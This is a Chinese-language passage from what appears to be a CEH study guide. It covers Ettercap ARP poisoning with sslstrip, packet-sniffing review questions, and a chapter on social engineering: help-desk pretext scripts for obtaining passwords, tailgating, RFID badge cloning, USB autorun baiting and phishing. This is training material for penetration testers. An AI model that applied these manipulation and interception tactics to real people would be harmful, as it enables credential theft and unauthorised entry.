## 在 Ettercap 中运行 sslstrip

```
Host 192.168.86.1 added to TARGET1
ARP poisoning victims:
GROUP 1 : 192.168.86.1 18:D6:C7:7D:F4:8A
GROUP 2 : ANY (all the hosts in the list)
Activating sslstrip plugin...
SSLStrip plugin: bind 443 on 59273
SSLStrip Plugin version 1.1 is still under experimental mode. Please reports any issues to the development team.
DHCP: [192.168.86.1] ACK : 0.0.0.0 255.255.255.0 GW 192.168.86.1 DNS 192.168.86.1 "lan"
```

一旦 iptables 规则生效，sslstrip 应该会捕获任何 HTTPS 流量。不过，这同样假设 HTTPS 连接使用的是易受剥离攻击的 SSL 或 TLS 版本。如果不是，你将无法获取任何流量。

## 摘要

嗅探可能是一项重要技能，因为许多策略都依赖于从嗅探中收集的信息。嗅探是捕获数据包的另一种说法，即收集通过网络接口的所有消息，在数据链路层捕获它们，并将所有消息传递给能够显示所捕获消息的应用程序。虽然它被称为数据包捕获，但实际上捕获的是帧，因为数据在数据链路层捕获，并且第 2 层头部完好无损。第 2 层的协议数据单元（PDU）是帧。第 3 层的 PDU 是数据包。如果数据包捕获软件丢弃了第 2 层信息，那么它实际上就是数据包捕获。

有许多软件可用于在各种平台上捕获数据包。tcpdump 程序自 20 世纪 80 年代末就已存在，并在 20 世纪 90 年代末得到标准化。它通常在多种操作系统上都可用，尤其是类 Unix 操作系统。在 Windows 上，你可以获得名为 windump 的 tcpdump 移植版。其行为相同，但源代码不同，以考虑到 Windows 与其网络硬件交互的方式。如果你在寻找可以在多个平台上使用相同名称的程序，可以使用 tshark。这是一个随 Wireshark 包提供的命令行程序。它还有一个优势，即可以只打印你指定的字段。Wireshark 是一个基于 GUI 的程序，不仅可以执行数据包捕获，还可以执行数据包分析。

可能还有其他程序和实用程序可用于分析数据包捕获，但 Wireshark 可能是你能获得的最好的选择，尤其是考虑到它是免费的。它可免费获得且功能丰富。Wireshark 了解数十种甚至数百种


协议。它执行协议解码并可以识别协议问题。它会通过对数据包捕获中的帧进行着色以及对协议解码中的行进行着色来提请注意这些问题。Wireshark 将提供专家信息，您可以从“分析”菜单一次性查看所有信息。还有一个“统计”菜单，提供了多种查看数据的方式。这包括协议层次结构，显示协议在数据包捕获中的分解情况。您还可以从端点的角度查看数据包捕获。在不同的统计视图中，您可以看到数据包和字节计数。

将数据包发送到您试图在其上进行捕获的设备可能具有挑战性。一种方法是对交换机进行端口镜像。有时这也被称为端口跨越，因为如前所述，Cisco 将该功能称为 SPAN。不过，您可能无法访问交换机。您还可以执行欺骗攻击，例如 ARP 欺骗。ARP 欺骗是指系统发送自发 ARP 响应，这些响应随后会被网络上的其他系统缓存。ARP 欺骗可用于将数据包发送到您的系统以进行捕获。但是，如果您真正想要做的是将请求重定向到其他 IP 地址，也可以使用 ARP 欺骗作为起点来执行 DNS 欺骗。您还可以使用 ARP 欺骗将 Web 请求重定向到 sslstrip 插件。执行所有这些操作的程序是 Ettercap，不过还有其他程序可以执行 ARP 欺骗。

DNS 欺骗也是将流量重定向到攻击者的一种可能方法。这可以通过拦截 DNS 请求并比合法 DNS 服务器更快地响应来实现。在 DNS 的情况下，先回答者获胜，有时 DNS 客户端甚至会接受来自未发起请求的 IP 地址的答案，因为 DNS 服务器有时可能会从与响应到达的 IP 地址不同的 IP 地址进行响应。

## 复习题

您可以在附录中找到答案。

- 1. 哪个硬件供应商在交换机上使用术语 SPAN？
  - A. HP
  - B. 3COM
  - C. Cisco
  - D. Juniper

- 2. 如果您看到以下命令行，您会捕获什么？
  tcpdump -i eth2 host 192.168.10.5
  - A. 仅来自 192.168.10.5 的流量
  - B. 来自和发往 192.168.10.5 的流量
  - C. 仅发往 192.168.10.5 的流量
  - D. 除来自 192.168.86.5 之外的所有流量

- 3. 在以下数据包中，源端口是什么？
  20:45:55.272087 IP yazpistachio.lan.62882 > loft.lan.afs3-fileserver: Flags
  [P.], seq 915235445:915235528, ack 3437317287, win 2048, options [nop,nop,TS
  val 1310611430 ecr 1794010423], length 83
  - A. lan
  - B. fileserver
  - C. yazpistachio
  - D. 62882

- 4. 在不带任何参数的情况下运行默认 tcpdump 的一个缺点是什么？
  - A. DNS 请求
  - B. 信息不足
  - C. 序列号不显示
  - D. tcpdump 不带额外参数将无法运行

- 5. Berkeley 包过滤器在哪个协议层运行？
  - A. 互连网络
  - B. 传输层
  - C. 数据链路层
  - D. 协议层

- 6. 我们如何称呼没有对应 ARP 请求的 ARP 响应？
  - A. Is-at 响应
  - B. Who-has ARP
  - C. Gratuitous ARP
  - D. IP 响应

- 7. Wireshark 中的哪个功能会按协议层提供数据包捕获中每个协议的百分比？
  - A. 会话
  - B. 端点
  - C. 协议层次结构
  - D. 统计视图

- 8. 如果您只想从捕获的数据包中打印特定字段，您会使用哪个程序？
  - A. fielddump
  - B. tcpdump
  - C. wiredump
  - D. tshark

- 9. 以下显示了一个时间戳。此消息的时间反映了什么？

```
630 41.897644 192.168.86.210 239.255.255.250 SSDP 750
NOTIFY * HTTP/1.1 [ETHERNET FRAME CHECK SEQUENCE INCORRECT]
```

  - A. 自 1970 年以来的时间
  - B. 一天中的时间
  - C. 自数据包开始以来的时间
  - D. 摘要中没有时间

- 10. 此摘要中列出的帧使用了什么协议？

```
719 42.691135 157.240.19.26 192.168.86.26 TCP 1464 443
-> 61618 [ACK] Seq=4361 Ack=1276 Win=31232 Len=1398 TSval=3725556941
TSecr=1266252437 [TCP segment of a reassembled PDU]
```

  - A. TLS
  - B. UDP
  - C. IP
  - D. TCP

- 11. 哪个程序可用于执行欺骗攻击并且还支持插件？
  - A. arpspoof
  - B. fragroute
  - C. Ettercap
  - D. sslstrip

- 12. 在执行 DNS 欺骗攻击之前，您需要做什么？
  - A. 设置端口跨越
  - B. 启动 Wireshark
  - C. ARP 欺骗
  - D. 配置 sslstrip

- 13. 您会使用哪个命令行参数来禁用 tcpdump 中的名称解析？
  - A. -n
  - B. -i
  - C. -r
  - D. -x

- 14. 为什么在第 4 层显示的端点可能比第 2 层多？
  - A. 第 4 层对第 2 层进行多路复用。
  - B. 系统可能会向同一主机发起多个连接。
  - C. 端口数量多于 MAC 地址。
  - D. IP 地址决定端点。

- 15. 您会使用 sslstrip 来做什么？
  - A. 获取明文流量
  - B. 删除所有 SSL 请求
  - C. 将 SSL 转换为 TLS
  - D. 将 TLS 转换为 SSL

- 16. 您可能会在 sslstrip 上遇到哪些问题？
  - A. sslstrip 已弃用。
  - B. sslstrip 无法与较新版本的 TLS 配合使用。
  - C. sslstrip 不支持 TLS。
  - D. sslstrip 仅与 Ettercap 配合使用。

- 17. 以下行是什么意思？
  序列号：4361（相对序列号）
  - A. 显示的序列号不是实际序列号。
  - B. 显示的序列号未递增。
  - C. 显示的序列号不够长。
  - D. 显示的序列号是确认号。

- 18. 您可以如何评价 Wireshark 提供的 [TCP Segment Len: 35]？
  - A. 窗口大小已更改。
  - B. Wireshark 推断了此信息。
  - C. Wireshark 从某个头部提取了此信息。
  - D. Wireshark 下方有更多详细信息。

- 19. 端口跨越解决了什么问题？
  - A. 交换机不支持第 3 层。
  - B. 交换机聚合端口。
  - C. 交换机过滤流量。
  - D. 交换机不可靠。

- 20. /etc/ettercap/etter.dns 文件用于什么？
  - A. 为 Ettercap 启用防火墙规则
  - B. 将主机名配置为 IP 地址
  - C. 为 Ettercap 设置邮件
  - D. 在 Ettercap 中禁用 ARP 欺骗

# 第 10 章


# 社交工程

本章将涵盖 CEH 考试的以下主题：

- 社交工程
- 物理安全
- 验证程序
- 生物识别


撰写本文时，2018 年底时，据认为大约 80% 的攻击涉及某种形式的社交工程。这使得学习社交工程变得重要。如果攻击者在使用它，您也应该使用它。归根结底，社交工程攻击将是进入网络的非常有效的途径，以便您可以继续进行测试。这在红队测试中尤其正确，在这些测试中，您可能会“被解除束缚”，并且在策略上拥有更大的自由度。

您可能对钓鱼等一些基本的社交工程策略很熟悉，仅仅是因为它很常见。然而，社交工程不仅仅是发送电子邮件。还有其他社交工程策略。归根结底，任何操纵他人去做他们不应该做或本来不会做的事情的手段都是社交工程。社交工程涉及大量心理学和人性元素，因此，本质上您是在利用人们的本性来对付他们。

除了社交工程的基础知识（包括它如何工作以及为什么有效）之外，还存在现实世界中的社交工程。一名熟练的社会工程师可以让许多人做他们想让他们做的事情。在数字空间中，当然有钓鱼，但即使是钓鱼也可以利用其他元素，包括恶意网站。即使没有钓鱼组件，也可能会使用恶意网站，它们被称为恶意网站，因为要么它们由攻击者控制，要么攻击者可能在合法网站中安装了恶意软件。

说到 rogue（恶意），攻击者可能会创建一个恶意无线接入点。这样做是为了诱使人们连接到他们认为是受信任的无线网络。创建恶意网络以及社交工程的其他方面都可以自动化，以节省设置时间。我们将在本章中涵盖所有这些内容。

## 社交工程

社交工程，无论它被称为什么或被如何看待，可能已经存在了与人类一样长的时间。您可以称其为操纵，但在信息安全社区中，它被称为社交工程。其目的是说服或操纵某人去做他们通常不会为不认识的人做的事情。有许多技巧可以做到这一点。它们通常被认为与影响力科学相关。罗伯特·西奥迪尼（Robert Cialdini）作为其影响力理论的一部分提出了六个原则。它们如下，了解这些原则可能有助于您开始理解如何影响或操纵他人：

### 互惠原则
人们通常会觉得自己想要回应一份善意或帮助，或者有义务这样做。如果一家公司赠送免费样品，你可能会有这种感觉。如果你得到了其中一份免费样品，你可能会倾向于觉得自己应该作为回应购买该产品。

### 承诺原则
如果某人对某事做出承诺，无论是书面的还是口头的，他们更有可能履行该承诺。

### 社会认同
可以将社会认同视为同伴影响。如果你看到其他人在做某事，比如使用某种产品，你就会觉得这样做是可以接受的。因此，你可能更愿意尝试该产品，或者尝试你所看到的任何东西。

### 权威原则
如果你曾被警察拦下，你就会认出这一点。即使没有，你也可以回想一下在学校时的情景。一般来说，人们倾向于服从权威人物，并做他们说的话或他们要求做的事情。

### 喜好原则
如果你喜欢某人，你可能更容易受其想法或行为的影响。

### 稀缺原则
这一点很容易辨认。想想卷心菜娃娃（如果你追溯得那么远），以及苹果公司许多产品的推出。这些产品缺货会增加其感知价值。价值增加的认知会使它们更具吸引力。

其中许多原则可以追溯到人类早期的起源。以社会认同为例。如果你看到邻居吃了某种东西然后没有死，你自己就会更倾向于吃那个东西。你就有证据证明它是安全的。同样，人类长期以来一直相互依赖以求生存。如果你的邻居为你做了某事，你也会为他们做某事，因为社区就是这样运作的。本质上，这些是根深蒂固的行为模式，源于我们的大脑和神经化学的工作方式。我们生来就容易受到社会工程和骗局的影响，因为从进化角度来看，我们需要彼此才能生存，因此信任很重要。

通常，社会工程的主要目标是获取信息。这意味着攻击者试图诱导某人提供本不应提供的信息。这可能是用户名和密码之类的东西。也可能是其他个人信息，比如社会安全号码或信用卡号码。当然，信息并不是使用社会工程的唯一原因。你可能希望某人访问一个网站，你在那里设下了另一个攻击。你也可以诱导某人打开一封电子邮件。

想想 "I Love You" 病毒。病毒需要用户干预才能在系统间传播。"I Love You" 利用了电子邮件客户端中的一个漏洞，使病毒能够使用通讯录向所有联系人发送消息。然而，在病毒运行之前，必须有人被说服打开电子邮件，然后运行消息中包含的脚本。正如你在图 10.1 中所见，主题行是 ILOVEYOU。想象一下，你收到一个认识的人发来的、主题行是该内容的电子邮件。你可能会打开这条消息。这条消息指示你打开附带的“文本”文件。事实上，这是社会工程的另一个方面。Windows 系统会隐藏已知文件类型的文件扩展名。你在消息中看到的是 LOVE-LETTER-FOR-YOU.txt，但实际上实际的文件扩展名是 .vbs。它只是被隐藏了，让你以为它是一个文本文件。

### 图 10.1 “I Love You”病毒


社会工程的例子数不胜数，你可能经常会看到很多。然而，在社会工程方面，最好是做好准备，考虑你的情况，而不要指望临时抱佛脚。

## 借口诡计

借口是为做某事或说某事找的理由，在社会工程的语境下，借口是你编造出来以解释联系的故事。使用借口来实施社会工程攻击被称为借口诡计。这基本上就是你将遵循的脚本。你会花相当多的时间在这方面，因此你需要清楚了解如何最好地获得你想要的东西。

你要从受害者那里得到什么就从什么开始，因为这将是你故事的基础。例如，如果你在寻找某人的企业凭据，你就不会打电话给他们说你来自他们的银行。故事确实需要符合情况。一旦你了解自己要寻找什么，就可以开始创建你的场景。你应该考虑如何“钩住”这个人，使他们愿意与你交往。

虽然这据称是一次合法的联系，但这里有一个让人参与的示例。其效果可能存在争议。最近，我接到一个人的电话，对方找 Aaron。当我说他打错号码时，他说他没有打错，但我可以帮忙。尽管我在那时挂断了电话，但很可能这是一次要求为某些慈善机构（如警察官员基金会）捐款的电话，因为这种方法与我收到的他们来电类似。这也体现了你的故事和脚本的重要性。当我说这里没有叫这个名字的人时，他没有结结巴巴，而是毫不犹豫地给出了答案。

顺便说一句，这类电话涉及承诺的概念。他们先冷电呼叫，然后不断跟进，直到你说你会承诺捐款。他们知道，如果只是邮寄东西让你考虑，你就不会履行。如果你告诉过他们你会通过捐款来履行承诺，那么你很可能会履行。

在构思你的故事时，请牢记社会工程的原则。如果你试图让某人泄露自己的信息，为他们做件好事，或者至少表现得好像在为他们做好事，会让他们感到欠你一个人情。例如，你可以打电话说你来自公司的帮助台，并且注意到有人大量尝试登录你目标的账户。你担心他们及其个人信息，因为信用卡盗窃如此普遍，更不用说他们系统中可能存储的任何其他数据了。他们会对你为他们做的好事（即表面上保护他们的利益）心怀感激。然后，你可以提出帮助确认甚至更改他们的密码。如果你让他们有点害怕，你可能还能消除任何天然的怀疑。


如果你想寻找一些关于如何实施社会工程攻击的好故事，可以找一些凯文·米特尼克（Kevin Mitnick）的故事，他长期以来被视为社会工程大师。

你很可能至少听说过有人接到来自美国国税局（IRS）或警察的电话。如果你不立即回电并达成协议，你就会被捕。这是利用权威的感知来对付你。人们期望你遵循权威的指示。如果你曾接到过这样的电话，请注意所使用的语气。语气非常严肃和权威。关于你如果不安排付款来支付费用或罚款或他们用作借口的任何东西就会被逮捕的故事完全是虚假的。然而，他们试图利用你服从权威的倾向。

同样，当你收到来自 FedEx、American Express、Chase 或任何其他合法公司的电子邮件时，这封电子邮件不仅仅是纯文本。它配备了真实的徽标。它可能还使用了你可能期望从这些公司收到的电子邮件所用的相同字体。它看起来合法，或者权威。因为它看起来正确，并且因为他们可能会提供你想要的东西，所以他们期望你会忽略实际 URL（由于电子邮件客户端通常会隐藏它）并点击链接。那时，你将被带到一个恶意网站。

### 补充说明

曾经常见的一种社会工程攻击是 419 诈骗。这也被称为尼日利亚王子诈骗，419 指的是尼日利亚刑法中的一节。这项诈骗类似于18世纪的一种诈骗，提醒人们社会工程已被用于犯罪目的操纵人们很长时间了。419 诈骗要求预付费用，并承诺背后有巨额财富。显然，一旦骗子从受害者那里得到预付费用，他们就会离开。


有许多方法可以让某人相信你的故事，社交工程攻击也有许多潜在的结果。如果你想要成功，重要的是要把预设借口做好，让你的故事保持一致。这样，如果你真的在和某人交谈，你就能应对可能出现的任何情况。如果你使用数字攻击，这也能帮助你把所有伪造材料处理正确。

## 社交工程向量

一旦你开始考虑所有可能使用的不同预设借口，接触某人并获取你想要的东西就有无数种方式。但归根结底，社交工程中使用的向量实际上只有四个。它们如下：

网络钓鱼 “网络钓鱼”一词基于捕鱼的概念，意思是抛出某种诱饵来获取信息。几十年前，phreak 一词用来指代擅长操纵电话网络的人。延伸开来，fishing 一词被篡改，创造出了 phishing 这个表达。网络钓鱼是一种通过电子通信使用欺骗手段获取信息的技术。你可能会通过电子邮件或即时通讯看到网络钓鱼尝试。你也可能会在社交网络平台上看到它的使用。

语音钓鱼 语音钓鱼（Voice phishing，或称 vishing）是一种常见方法。这是使用电话进行钓鱼以获取信息。vishing 攻击也可用于侦察。你可以使用 vishing 来获取有关目标的信息。

短信钓鱼 这是使用短信服务（SMS）进行的钓鱼。你可能会收到来自未知号码的短信，其中可能包含链接。在智能手机时代，目标很容易点击链接并被带到网站上。

冒充 这是一种常见方法，也是我们之前肯定讨论过的一种。在这种情况下，它被认为更多是一种物理向量，即你试图通过假装是别人来进入大楼或设施。冒充最终是许多社交工程攻击的主要组成部分。冒充攻击也可以通过网站进行，用户认为自己正在访问一个网站，但实际上正在访问另一个网站。

这些只是攻击向量的一小部分。其中大多数基于通信方式，但其中一个基于主要的物理机制——假装成你并不是的某人或某物。

## 物理社交工程

并非所有信息都是数字化的。并非所有目标都存在于数字领域。实际上，进入一个组织最容易的途径是通过人。多年甚至数十年来，无数攻击都在证明这一点。有时，穿过人群的最佳方式是与他们进行物理接触。这可以是通过语音，如语音钓鱼攻击。也可以简单地出现在某个地方，试图进入设施。你可以使用物理向量进行大量侦察。进入设施意味着你可能会看到人们的桌面或白板。许多用户容易写下他们认为重要的信息。是的，这有时包括密码。在密码政策苛刻的情况下，它们没有考虑到记住密码有多难，一些用户根本无法跟踪自己的密码，只能诉诸把它们写下来提醒自己。

就计算机系统而言，物理访问也是最好的访问方式。如果你能接触到系统，可能会发现它未锁定。还可以通过可移动介质启动以获取或更改密码。这并不是说进入设施会很容易。可能会有多种安全措施来防止这种情况。

## 徽章访问

徽章访问是限制未经授权人员进入的常见方法。这意味着经过授权的员工和其他人会获得一张徽章。你可以在图 10.2 中看到徽章示例。徽章通常会带有一个射频识别（RFID）设备，徽章读卡器可以读取该设备。读卡器连接到一个系统，该系统可以检查你的RFID设备，以及由此你本人，是否已获得授权。如果你的卡已获授权，读卡器会发送信号来解锁或释放门——这是一个相当简单且广泛使用的过程。

图 10.2 基于RFID的徽章


不过，这种方法也存在问题，这意味着你可以绕过这些门锁设备以进入大楼。首先，有尾随（tailgating），也称为搭便车（piggybacking）。如果你在入口附近等待，尤其是在员工通常进入大楼的时间，你可以等到其他人刷徽章并解锁门。然后你就跟着他们进入大楼。这并不意味着你可以随意进入每个地方。许多设施除了外门外，还会在内门上安装徽章读卡器。不过，如果他们允许多人通过外门，那么你很有可能仍然可以再次使用尾随选项，进入大楼中你需要进入的任何部分。

员工通常会接受关于徽章访问和尾随的培训。然而，你会发现有些员工不愿意质问他人以查看他们是否有徽章。理想情况下，当有人试图尾随时，这就是程序，尽管在我的经验中这不常发生。有些公司可能建议你允许尾随，然后呼叫物理安全处理，其前提是，如果有人出于恶意目的试图进入大楼，员工质问其进入权限可能会危及员工的人身安全。

徽章访问的另一种方法是克隆RFID卡。RFID标签只是一个非常小的设备，可以响应来自另一台设备的查询。标签和读卡器之间有主动和被动交互的不同组合，但最终，它们工作在125 kHz或13.5 MHz范围的射频波上。要克隆一张卡，你只需要读取要克隆的徽章或设备上的标识符，并将其复制到你正在使用的新徽章、卡片或其他设备上。还可能使用手机中的近场通信（NFC）技术来克隆设备。事实上，一些酒店开始使用这项技术，允许你使用手机解锁门。

虽然这未必是一项非常昂贵的工作，但更简单的做法可能是直接弄到某人的卡片并使用一段时间。这样做的一个优点是，尽管这些徽章上通常会有照片，但并非总是如此，大多数人不会注意到照片，也不会凑近去看徽章。把徽章反戴着走来走去也非常容易，这样就没有名字或照片显示出来。配有卷轴的腰带夹经常会出现这种情况。仅凭设备的特性，徽章就很容易转过来背面朝外。


并非所有公司都会在徽章上放置太多身份标识。通常不会放置公司名称。甚至可能没有员工姓名。有时你可能会发现没有照片，这使得使用徽章容易得多。几年前我曾为一家公司做咨询，他们发放了承包商徽章。这些徽章在通常放置照片的位置有一个大写的C。显然，没有姓名和照片，只要该徽章能授予进入大楼的权限，谁会质疑使用这个特定的徽章呢？

有时，你会发现徽章访问门内有保安。保安应该检查尾随，并且理想情况下，目视检查入口以确保他们佩戴徽章。然而，人就是人，如果不强制单独检查徽章，很容易随一群人混进去。你只需理所当然地走过去，假装保安不会注意到你没有徽章。

绕过徽章访问可能还有其他方法，不过那些是常见的。不过，使用徽章进入时情况并不总是轻松。并非所有公司都允许门敞开并保持一段时间。

## 人体陷阱

人体陷阱是一种装置，会使进入大楼困难得多。此外，这对你来说也会危险得多。如果有人体陷阱，你会遇到两个由短距离隔开的门。一旦你通过那个


第一道门，你会被困在那个空间里，直到第二道门被打开。第二道门很可能由一名警卫操作，警卫可能会进行某种身份验证，比如核对你的身份与徽章上的姓名和照片，而这张徽章可能最初让你进入了该空间。这就比单纯的旧式徽章门禁要难通过得多。这可能是一个徽章克隆可能有所帮助的区域，除非警卫正在将你的徽章与另一种形式的身份证件进行核对。

还有其他类似的方法——一次只允许一个人通过门道。你可能会发现有些情况，门道设有旋转门或翼门，根据徽章门禁或其他形式的身份验证来限制出入。翻转栅栏可以翻越，但完全封闭的旋转门则是另一回事。这是一个你无法尾随的地方。一次只允许一个人进入旋转门。这样的门通常结合多种机制。第一种是徽章门禁。你需要将徽章在读卡器上刷过。做完之后，你需要踏入门禁机制。一旦它识别出你在那里，就会允许部分旋转，刚好够一个人通过...

绕过这一点的一个方法是在别人使用之前使用其徽章。由于你可能把握不好踏入门的时机，可能需要多次刷徽章，这意味着双刷足够常见，因此是被允许的。如果你碰巧在公司内部有一个同伙，他们可以先刷你进去，然后在门放行你之后立刻刷自己进去。不过，你大概不会有内部人员让你进去，这意味着得找另一种绕过方法。

这就是残障法律发挥作用的地方。显然，一扇如此限制性的门（一次不允许超过一人进入，而且通常连带背包的人都勉强能进）不会允许拄拐杖的人，更不会允许坐轮椅的人进入。所以，你可能会发现有一扇残障人士门允许凭徽章进入大楼。我曾经工作过的一家公司把两扇门并排放置。使用残障人士门刷卡进入很容易，而且门会在自动关闭前保持开启一段时间，以确保任何以某种方式残障的人都有时间通过。老实说，我们和供应商共进午餐时，曾使用残障人士入口去停车场的车，这样他们就不必重新穿过大厅了。我们只是用这扇门，他们就尾随进去了。

有趣的是，这些旋转门在某种程度上可以作为人体陷阱运作，因为即使你以某种方式进入了大楼但没有徽章，你也会被困在大楼里，因为要想出去，你需要再次刷卡来操作门。同样的过程会在出门时发生。你会刷卡，然后踩在感应板上，门就会旋转四分之一圈，刚好够你从另一边出去。

## 生物识别

到这个时候，你很可能已经使用生物识别一段时间了。Android 智能手机多年来一直有人脸识别功能。Android 和 iOS 设备都已支持指纹一段时间。最近，Apple 推出了 Face ID，旨在更好地进行活体人脸识别，因为设备不会被照片之类简单的东西骗过。Android 还支持使用眼睛进行身份识别。生物识别是利用你独有的生理特征作为一种身份验证形式。如果你使用过这些方法中的任何一种来解锁手机，那么你就在使用生物识别。

### 指纹

指纹扫描仪很常见，部分原因是这项技术已经存在一段时间了。指纹存在一些问题，包括读卡器可能会被指纹的高分辨率复制品所欺骗，除非读卡器考虑体温。体温并不总是可靠的指标，因为它不一定保持一致（你有没有遇过手特别冷的人？）。

### 虹膜扫描

虹膜扫描是眼部扫描的更新版本。虹膜是眼睛中含有颜色的部分。它的大小也会根据光线强度引起瞳孔扩张的程度而变化。如果你非常仔细地看自己的眼睛，或者更好，看别人的眼睛，你会发现虹膜并不是纯色的。它有一种图案。正是这个图案被用来匹配并验证你的身份。虹膜图案被认为对每个人都是独一无二的。虹膜扫描的一个优点是使用光线照亮眼睛，因此虹膜扫描可以在黑暗中工作。

### 视网膜扫描

这也是基于你的眼睛。视网膜位于眼睛的最后部，包含为视神经产生冲动的感光细胞。视网膜包含来自血管的图案，可用于识别人。

### 声纹

声纹曾在电影 Sneakers 中著名地展示过。如果你还没看过，去找来看看。它包含许多社会工程学的创意，以及一种非常奇怪的破解声纹读卡器的方法。声纹读卡器存在许多问题。其中之一是你的声音会根据多种因素（包括一天中的时间）每天发生变化。此外，感冒会影响你的声音。这就是为什么不太多系统会使用声纹（至少在安防系统实现中）的一个原因。

生物识别系统的有效性基于成功率和失败率。有两个衡量指标尤为重要。第一个是假阴性。假阴性意味着本应被允许进入的人被拒绝了。然而，这远不如假阳性严重。假阴性可能需要再次尝试，或最坏情况下需要他人干预。假阳性意味着不该被允许进入的人获得了进入权限。假阳性会导致未经授权的人员在你的设施内游荡。常用的两个指标是错误拒绝率（FFRs）和错误接受率（FARs）。

还有其他类型的生物识别，包括掌纹扫描仪和手部地形识别。你不太可能遇到这些类型的生物识别，原因有很多。它们并不完全可靠。可能有绕过不同类型生物识别的方法，但干脆避免进入需要生物识别扫描的情况可能更简单。

## 电话

这不像进入设施那样完全是物理层面的，但它仍然可能是一种收集信息的获利方式。要不是这样，你就不会接到自称“Windows 支持”、声称收到你系统通知的电话了。这是另一个借口术能起很大作用的案例。事先进行大量侦察也很有用，这样你除了知道主电话号码之外还能了解更多。如果有多个设施，获取它们的电话号码也会有帮助。这在常见的借口术策略中尤其有用。

攻击者可以随机拨打组织内部的电话号码或分机号，声称自己来自帮助台或 IT 支持。最终，他们会碰上某个正在等待支持回电的人。用户会对回电表示感激，这让我们回到前面提到的原则。首先是互惠原则。他们会对帮助表示感激。当人们联系帮助台时，他们通常感到困惑和沮丧。这对于不熟悉技术的用户尤其如此，这类用户更可能需要帮助台支持，并且即使在指导下也可能难以执行所需操作。这会让他们对回电特别感激，尤其是当你能帮他们解决问题时。

在这种情况下，第二个原则是权威。作为帮助台团队的一员，你拥有他们没有的权限和知识。这意味着你拥有一定的权威。如前所述，人们可能会遵循有权威之人的指示。如果你暗示你需要用户名和密码来验证他们，他们可能会愿意提供这些信息。

公司通常会定期（通常每年一次）对员工进行培训，帮助他们识别社会工程学诈骗。这可能会让工作变得更难，但并非不可能。有个可信的故事很有帮助。如果你掌握了一些公司细节，可以向内部人员提供，让自己看起来更像真的为公司工作，从而显得更可信，那就更有帮助了。

## 诱饵

人们喜欢免费的东西。如果你参加过与 IT 相关的会议或展览，可能已经注意到人们排着长队，等着拿走公司发放的任何东西，不管是否需要，是否有用。毕竟，你能有多少解压玩具？这有什么关系？你可以利用这一点。过去你可以在周围放些 CD，看看人们是否会捡起来。用有趣的东西手写标签——也许是某张热门专辑的名称。或者，你可以给它起一些诱人的数据名称。任何能鼓励某人拿起光盘并把它放进电脑里看看里面到底是什么的东西都行。当然，如今的电脑通常没有 CD-ROM 驱动器，所以随意放置 CD 已经没多大用处了。

这并不意味着你不能继续利用人们喜欢免费东西这一事实。例如，如果你看到停车场里躺着一个 128 GB 的 USB 闪存盘，你会怎么做？就算是更小的东西，你会怎么做？相当一部分人会环顾四周，看看附近是否有谁可能丢了它，然后就会把它捡起来。许多人会把闪存盘插进电脑，要么看看里面有什么，要么格式化后自己使用。毕竟是免费的东西。谁不能用一个 128 GB 的 USB 闪存盘来传输或备份数据呢？

当然，随便一个 USB 闪存盘是不行的。当然也不能是空白的 USB 闪存盘。你需要做的是在闪存盘里放入一些对你有用的软件。这可能


包括为你提供对用户系统的远程访问。不过，你不能指望用户会直接运行你留在 U 盘上的软件。不过，你可以利用 autorun.inf 文件，使你的程序在 U 盘插入启用了自动运行功能的计算机时自动运行。当然，并非所有计算机都具备该功能。这是一种常见的加固技术，用于防止任何可移动磁盘自动运行任何内容。

这是用户通常会接受培训的另一个领域。不过，如果你将留下的诱饵制作得足够诱人，可能仍能让人们忽略他们的培训。如今，超大容量 U 盘并不贵，因此花钱购置一些可以随意留置的 U 盘，可能是一项不错的投资。

## 钓鱼攻击

你很可能对这些攻击非常熟悉。如果你是安全专业人员，甚至只是使用计算机几年的普通用户，可能已经多次见过它们。如果你觉得自己没见过钓鱼攻击，请打开电子邮件程序中的垃圾邮件文件夹。你大概率能在那里找到几十封。至少，你应该能找到一封。如果你没有，又觉得错过了什么，可以拿我的一封。你可以在图 10.3 中看到一封钓鱼邮件示例。

### 图 10.3 钓鱼邮件


这封电子邮件有许多可疑之处。第一是一封声称我赢得了一大笔钱的电子邮件。要拿到钱，我只需提供个人信息。免费送钱的提议立刻让我产生怀疑。要求我提供个人信息以领取我根本没参与的彩票奖金，也让我怀疑。毕竟，如果我被选中了，他们为什么不已经掌握我的信息呢？另一个让我高度警惕的地方是，邮件建议我联系美国的一位大律师。美国有律师，没有大律师。一家在美国有律师的公司应该知道这一点。

语法也是一个提示。如果你看到可疑的语法，应该对这封电子邮件保持警惕。仅仅索要联系方式，对于钓鱼攻击来说算是比较低级的手段。这种攻击似乎不太可能特别成功。然而，419 诈骗依然时有得手，因此以多种形式继续存在。有一种理论认为，那些可能会上这种拙劣诈骗当的人会自我筛选。如果他们可能会相信诈骗，那么他们很可能也会把钱交给攻击者。

制作精良的钓鱼邮件经过伪装，看起来完全合法，只要你不仔细检查。此类攻击更有可能成功，而且制作起来也不算特别困难。你可以在图 10.4 中看到此类钓鱼邮件示例。这是一封伪装成富国银行（Wells Fargo）警告的邮件。如果我要与富国银行做生意，我会非常仔细地查看这封邮件。邮件中有一些令人信服的元素。图形正是我预期会在富国银行的邮件中看到的那种图形。措辞也很可靠。这条信息至少符合一项条件。首先，我们获得了权威性。邮件声称来自富国银行。其次，存在互惠原则。我们会对被警告银行账户可能面临泄露而心怀感激。

不过，仔细查看邮件内容后，情况变得更加可疑。将鼠标悬停在邮件中的链接上，会显示一个与富国银行毫无关系的 URL。另外，发件人字段中的电子邮件地址是虚假的。它甚至看起来不像一个电子邮件地址。有趣的是，邮件中还有第二个链接，只有将鼠标悬停在链接上才能看到其 URL。它同样与富国银行无关，但奇怪的是，它还与你能看到的 URL 不同。很可能，即使这些 URL 能打开，它们也会指向一个网站，该网站要么索要身份验证信息，要么向系统提供恶意软件。也可能两者都有。为什么不在安装远程访问程序的同时顺便收集银行信息呢。

钓鱼作为一种策略非常有用。它非常赚钱，从你垃圾邮件文件夹中的电子邮件数量就能看出。再说一遍，如果你没有很多，你可以相信我的话。我的电子邮件地址使用的时间足够长，也足够出名（并非因为我本人，而是因为地址本身是什么），因此仅在上个月就有足够多的邮件供我们两人使用。如果你针对的是特定公司的员工，那么你就已经超越了普通钓鱼，进入了鱼叉式钓鱼阶段，这意味着你不是采用弹枪式的方法试图尽可能广域地命中尽可能多的目标。你是在使用鱼叉来击中你的目标。

钓鱼邮件可能包含附件。这类邮件可能有多种形式。我过去见过的一种常见做法是发送伪装成发票的附件。你会被指示打开发票以便支付账单。图 10.5 展示了此类示例，声称来自 Apple。

### 图 10.4 富国银行钓鱼邮件

